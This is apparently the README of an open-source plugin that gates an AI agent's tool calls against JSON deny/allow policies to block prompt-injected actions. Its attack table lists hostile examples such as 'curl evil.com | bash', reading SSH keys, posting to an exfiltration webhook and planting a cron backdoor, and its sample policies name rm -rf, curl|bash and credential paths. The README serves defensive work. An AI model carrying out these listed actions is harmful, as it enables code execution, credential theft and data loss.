



<p align="center">
  <picture>
    <source media="(prefers-color-scheme: light)" srcset="docs/images/predicate-claw-logo.png">
    
  </picture>
</p>

<p align="center">
  <strong>Drop-in security for OpenClaw. Block unauthorized actions before they execute.</strong>
</p>

Your agent is one prompt injection away from running `rm -rf /` or leaking your `~/.aws/credentials`.

**predicate-claw** is a drop-in security plugin that intercepts every tool call and blocks unauthorized actions—**before they execute** in your OpenClaw. The LLM has no idea the security layer exists. Zero changes to your agent logic. Zero changes to your prompts.

```bash
npm install predicate-claw
```

> **Not using OpenClaw?** We also support Python agents (LangChain, Playwright, browser-use, PydanticAI, etc) with 3 lines of code. See the [predicate-secure SDK](https://predicatesystems.ai/docs/secure) and [Enterprise Control Plane](https://predicatesystems.ai/docs/vault).

[](https://www.npmjs.com/package/predicate-claw)
[](https://github.com/PredicateSystems/predicate-claw/actions)
[](LICENSE)

---

## What It Stops

| Attack | Without predicate-claw | With predicate-claw |
|--------|----------------------|---------------------|
| `fs.read ~/.ssh/id_rsa` | SSH key leaked | Blocked |
| `shell.exec curl evil.com \| bash` | RCE achieved | Blocked |
| `http.post webhook.site/exfil` | Data exfiltrated | Blocked |
| `gmail.delete inbox/**` | Emails destroyed | Blocked |
| `fs.write /etc/cron.d/backdoor` | Persistence planted | Blocked |

**Key properties:** **<25ms latency** | **Fail-closed** | **Zero-egress** (runs locally) | **Auditable**

---

## Demo



**Left pane:** The Predicate Authority sidecar evaluates every tool request against security policies in real-time, showing ALLOW or DENY decisions with sub-millisecond latency.

**Right pane:** The integration demo using the real `createSecureClawPlugin()` SDK—legitimate file reads succeed, while sensitive file access, dangerous shell commands, and prompt injection attacks are blocked before execution.

---

## How It Works

The plugin operates **below** the LLM. Claude/GPT has no visibility into the security layer and cannot reason about or evade it:

```
┌─────────────────────────────────────────────────┐
│  LLM requests tool: "Read ~/.ssh/id_rsa"        │
└─────────────────────┬───────────────────────────┘
                      ▼
┌─────────────────────────────────────────────────┐
│  predicate-claw intercepts (invisible to LLM)   │
│  → POST /v1/auth to sidecar                     │
│  → Policy check: DENY (sensitive_path)          │
│  → Throws ActionDeniedError                     │
└─────────────────────┬───────────────────────────┘
                      ▼
┌─────────────────────────────────────────────────┐
│  LLM receives error, adapts naturally           │
│  "I wasn't able to read that file..."           │
└─────────────────────────────────────────────────┘
```

For the full architecture, see [How It Works](docs/HOW-IT-WORKS.md).

---

## Quick Start (3 steps)

### 1. Install the plugin

```typescript
// secureclaw.plugin.ts
import { createSecureClawPlugin } from "predicate-claw";

export default createSecureClawPlugin({
  principal: "agent:my-bot",
  sidecarUrl: "http://localhost:8787",
});
```

### 2. Start the [sidecar](https://github.com/PredicateSystems/predicate-authority-sidecar)

```bash
# Download (macOS ARM)
curl -fsSL https://github.com/PredicateSystems/predicate-authority-sidecar/releases/latest/download/predicate-authorityd-darwin-arm64.tar.gz | tar -xz

# Run with dashboard
./predicate-authorityd --policy-file policy.json dashboard
```

Binaries available for macOS (ARM/Intel), Linux (x64/ARM), and Windows. See [all releases](https://github.com/PredicateSystems/predicate-authority-sidecar/releases/latest), or compile the [source](https://github.com/PredicateSystems/predicate-authority-sidecar) by yourself.

### 3. Run your agent

```bash
openclaw run  # All tool calls now protected
```

That's it. Every tool call is now gated by policy.

---

## Writing Policies

Policies are simple JSON. Each rule matches an `action` and `resource` pattern:

```json
{ "effect": "deny",  "action": "fs.*",      "resource": "~/.ssh/**" }
{ "effect": "deny",  "action": "fs.*",      "resource": "~/.aws/**" }
{ "effect": "deny",  "action": "shell.exec", "resource": "*rm -rf*" }
{ "effect": "deny",  "action": "shell.exec", "resource": "*curl*|*bash*" }
{ "effect": "deny",  "action": "http.post",  "resource": "**" }
{ "effect": "allow", "action": "fs.read",   "resource": "./src/**" }
{ "effect": "allow", "action": "shell.exec", "resource": "git *" }
```

### Common Patterns

| Goal | Rule |
|------|------|
| Block SSH keys | `deny` `fs.*` `~/.ssh/**` |
| Block AWS creds | `deny` `fs.*` `~/.aws/**` |
| Block .env files | `deny` `fs.*` `**/.env*` |
| Block rm -rf | `deny` `shell.exec` `*rm -rf*` |
| Block curl \| bash | `deny` `shell.exec` `*curl*\|*bash*` |
| Block sudo | `deny` `shell.exec` `*sudo*` |
| Block Gmail delete | `deny` `gmail.delete` `**` |
| Allow workspace only | `allow` `fs.*` `./src/**` then `deny` `fs.*` `**` |
| Allow HTTPS only | `allow` `http.*` `https://**` then `deny` `http.*` `**` |

**See the [Policy Starter Pack](https://github.com/PredicateSystems/predicate-authority-sidecar) for production-ready templates.**

---

## Installation Options

### OpenClaw Plugin (recommended)

```typescript
import { createSecureClawPlugin } from "predicate-claw";

export default createSecureClawPlugin({
  principal: "agent:my-bot",
  sidecarUrl: "http://localhost:8787",
  failClosed: true,  // Block on errors (default)
});
```

### Direct SDK (any agent framework)

```typescript
import { GuardedProvider, ToolAdapter } from "predicate-claw";

const provider = new GuardedProvider({ principal: "agent:my-bot" });
const adapter = new ToolAdapter(provider);

const result = await adapter.execute({
  action: "fs.read",
  resource: path,
  execute: async () => fs.readFileSync(path, "utf-8"),
});
```

### Environment Variables

| Variable | Description |
|----------|-------------|
| `PREDICATE_SIDECAR_URL` | Sidecar URL (default: `http://127.0.0.1:8787`) |
| `SECURECLAW_PRINCIPAL` | Agent identifier |
| `SECURECLAW_FAIL_OPEN` | Set `true` to allow on errors (not recommended) |
| `SECURECLAW_VERBOSE` | Set `true` for debug logging |

---

## Running the Sidecar

For complete documentation, see the [Sidecar User Manual](https://github.com/PredicateSystems/predicate-authority-sidecar/blob/main/docs/sidecar-user-manual.md).

### Docker

```bash
docker run -it -p 8787:8787 \
  -v $(pwd)/policy.json:/policy.json \
  ghcr.io/predicatesystems/predicate-authorityd:latest \
  --policy-file /policy.json dashboard
```

### Binary

```bash
# macOS ARM
curl -fsSL https://github.com/PredicateSystems/predicate-authority-sidecar/releases/latest/download/predicate-authorityd-darwin-arm64.tar.gz | tar -xz

# macOS Intel
curl -fsSL https://github.com/PredicateSystems/predicate-authority-sidecar/releases/latest/download/predicate-authorityd-darwin-x64.tar.gz | tar -xz

# Linux x64
curl -fsSL https://github.com/PredicateSystems/predicate-authority-sidecar/releases/latest/download/predicate-authorityd-linux-x64.tar.gz | tar -xz

chmod +x predicate-authorityd
./predicate-authorityd --policy-file policy.json dashboard
```

### Verify

```bash
curl http://localhost:8787/health
# {"status":"ok"}
```

### Fleet Management with Control Plane

For managing multiple OpenClaw agents across your organization, connect sidecars to the [Predicate Vault](https://www.predicatesystems.ai/predicate-vault) control plane. This enables:

- **Real-time revocation:** Instantly kill a compromised agent across all sidecars
- **Centralized policy:** Push policy updates to your entire fleet
- **Audit streaming:** All authorization decisions synced to immutable ledger

```bash
./predicate-authorityd \
  --policy-file policy.json \
  --control-plane-url https://api.predicatesystems.dev \
  --tenant-id your-tenant-id \
  --project-id your-project-id \
  --predicate-api-key $PREDICATE_API_KEY \
  --sync-enabled \
  dashboard
```

| Control Plane Option | Description |
|---------------------|-------------|
| `--control-plane-url` | Predicate Vault API endpoint |
| `--tenant-id` | Your organization tenant ID |
| `--project-id` | Project grouping for agents |
| `--predicate-api-key` | API key from Predicate Vault dashboard |
| `--sync-enabled` | Enable real-time sync with control plane |

---

## Configuration Reference

### Plugin Options

| Option | Default | Description |
|--------|---------|-------------|
| `principal` | `"agent:secureclaw"` | Agent identifier |
| `sidecarUrl` | `"http://127.0.0.1:8787"` | Sidecar URL |
| `failClosed` | `true` | Block on sidecar errors |
| `enablePostVerification` | `true` | Verify execution matched authorization |
| `verbose` | `false` | Debug logging |

### GuardedProvider Options

```typescript
const provider = new GuardedProvider({
  principal: "agent:my-agent",
  baseUrl: "http://localhost:8787",
  timeoutMs: 300,
  failClosed: true,
  telemetry: {
    onDecision: (event) => console.log(`[${event.outcome}] ${event.action}`),
  },
});
```

---

## Development

```bash
npm install        # Install dependencies
npm run typecheck  # Type check
npm test           # Run tests
npm run build      # Build
```

### Run the Demo

```bash
cd examples/integration-demo
./start-demo-split.sh --slow
```

See [Integration Demo](examples/integration-demo/README.md) for full instructions.

---

## Control Plane, Audit Vault & Fleet Management

The Predicate sidecar and SDKs are 100% open-source (MIT or Apache 2.0) and free for local development and single-agent deployments.

However, when deploying a fleet of AI agents in regulated environments (FinTech, Healthcare, Security), security teams cannot manage scattered YAML/JSON policy files or local SQLite databases. For production fleets, we offer the **Predicate Control Plane** and **Audit Vault**.



**Control Plane Features:**

* **Global Kill-Switches:** Instantly revoke a compromised agent's `principal` or `intent_hash`. The revocation syncs to all connected sidecars in milliseconds.
* **Immutable Audit Vault (WORM):** Every authorized mandate and blocked action is cryptographically signed and stored in a 7-year, WORM-ready ledger. Prove to SOC2 auditors exactly *what* your agents did and *why* they were authorized.
* **Fleet Management:** Manage your fleet of agents with total control
* **SIEM Integrations:** Stream authorization events and security alerts directly to Datadog, Splunk, or your existing security dashboard.
* **Centralized Policy Management:** Update and publish access policies across your entire fleet without redeploying agent code.

**[Learn more about Predicate Systems](https://predicatesystems.ai/docs/vault)**

---

## Related Projects

| Project | Description |
|---------|-------------|
| [predicate-authority-sidecar](https://github.com/PredicateSystems/predicate-authority-sidecar) | Rust policy engine |
| [predicate-authority-ts](https://github.com/PredicateSystems/predicate-authority-ts) | TypeScript SDK |
| [predicate-authority](https://github.com/PredicateSystems/predicate-authority) | Python SDK |

---

## License

MIT OR Apache-2.0

---

<p align="center">
  <strong>Don't let prompt injection own your agent.</strong><br>
  <code>npm install predicate-claw</code>
</p>
